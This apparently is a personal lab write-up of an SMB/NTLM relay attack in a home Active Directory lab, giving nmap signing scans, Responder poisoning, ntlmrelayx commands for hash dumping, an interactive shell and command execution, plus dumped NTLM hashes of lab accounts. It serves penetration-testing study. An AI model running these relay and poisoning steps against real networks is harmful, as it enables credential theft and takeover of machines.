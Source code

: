 
Domain 
```
192.168.17.139
```

```
nmap --script=smb2-security-mode.nse -p445 192.168.17.139 -Pn
```
![[Pasted image 20240120125323.png]]
Always try to -Pn in the end cuz something it will not show the host even there are the host or something the ping might be blocked.

We can also swipe the whole network
```
nmap --script=smb2-security-mode.nse -p445 192.168.17.0/24 -Pn
```
![[Pasted image 20240120125838.png]]

<hr>

Now the attack begins will change the conf file of responder



Will make a target list with the fcastle and pparker id address
```
Fcastle
192.168.17.140

Pparker
192.168.17.142
```


![[Pasted image 20240120130349.png]]
![[Pasted image 20240120130432.png]]

Command to run
```
sudo responder -I eth0 -dwPv 
```
![[Pasted image 20240120130552.png]]

Now we have to setup the NTLM relay

```
ntlmrelayx.py -tf ~root/HackTheBox/Active_Directory/target.txt -smb2support
```


Will trigger the event
```
\\192.168.17.136
```
![[Pasted image 20240120131350.png]]
![[Pasted image 20240122202733.png]]
```
dministrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9bfe7a3a0f4541b3bdfc3eca4d3b2e7d:::
peterparker:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
```


Got the NTLM hash and the effect triggered from Peter parker pc cuz punisher is local admin in both the PC.
![[Pasted image 20240122202904.png]]



For a little twist i first try to relay with Peter Parker machine but failed in it but but but 
when i tried with fcastle i was able to get the relay as it is local admin on both the machine


![[Pasted image 20240120131959.png]]

```
ntlmrelayx.py -tf ~root/HackTheBox/Active_Directory/target.txt -smb2support -i
```
![[Pasted image 20240120151006.png]]

![[Pasted image 20240120150947.png]]

If we want to test if we are able to run a command or not
```
ntlmrelayx.py -tf ~root/HackTheBox/Active_Directory/target.txt -smb2support -c "whoami"
```

